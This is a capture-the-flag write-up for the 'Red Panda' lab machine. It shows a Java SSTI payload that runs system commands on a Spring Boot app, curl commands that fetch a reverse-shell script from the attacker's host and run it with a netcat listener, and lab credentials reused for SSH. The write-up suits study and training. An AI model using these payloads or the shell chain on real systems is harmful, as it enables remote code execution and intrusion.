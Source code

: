# Red Panda

## User Flag

After adding redpanda.htb to my vhosts, using nmap I discovered it's running ssh as well as an http proxy. After accessing port 8080, I discovered on the title, it's running Spring Boot which is a Java based system.

Knowing this I assumed the next step was to try XSS or SSTI. SSTI seemed to be the winner as after using the following payload:

```
*{7*7}
```

I was able to return the result 49, meaning I could run malicious code on the server. Using the Git Repo "PayloadAllTheThings" I found a payload corresponding to Java (what Spring Boot is a web framework of).

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

(Note that I replaced first character of the example on PayloadAllTheThings with a * like the first working payload)

From here I next wrote a python script that will be included in the repo to turn linux commands into Java based payloads.

To get the flag, I used the python tool to explore the system until I found the user flag.

```
python3 JavaPayloadGenerator.py
Linux Command to Convert: cat /home/woodenk/user.txt
```

After that I generated a reverse shell to enter the system then go for root. (Shell can be seen in the shell.sh section)

First, I hosted my shell.sh in a python webserver sitting int the /tmp/ directory with the bash script:

```
python3 -m http.server
```

Second, I used my python payload script to generate a java payload of the following:

```
python3 JavaPayloadGenerator.py
Linux Command to Convert: curl 10.10.14.6:8000/shell.sh --output /tmp/shell.sh
```

I pasted the results in the search bar to retrieve the shell.sh script I made and place it in the /tmp/ directory.

Third, I called the bash script while running a netcat listener on my device:

```
nc -lvnp 1234
python3 JavaPayloadGenerator.py
Linux Command to Convert: bash /tmp/shell.sh
```

After securing a foothold, I was able to find a private key but haven't been able to quite use it yet so to log back into woodenk, I have to use the shell generation.

## Root Flag

### Linpeas

So I first got my linpeas.sh script on the target via the same method I dropped the shell onto it.

After running it, I found that it's vulnerable to CVE-2021-3560. This allows for the user to elevate privilages by creating a new local administrator.

That being said, after trying to recreate the issue, I've gotten nothing back.

### Securing SSH Creds

After digging around, I found some SQL credentials from the /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java file.

```
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
```

**woodenk:RedPandazRule**

SUCCESS!! Those credentials work!

```
ssh woodenk@10.10.11.170
RedPandazRule
```

Now I won't have to redo the whole ugly SSTI to spawn a shell again!

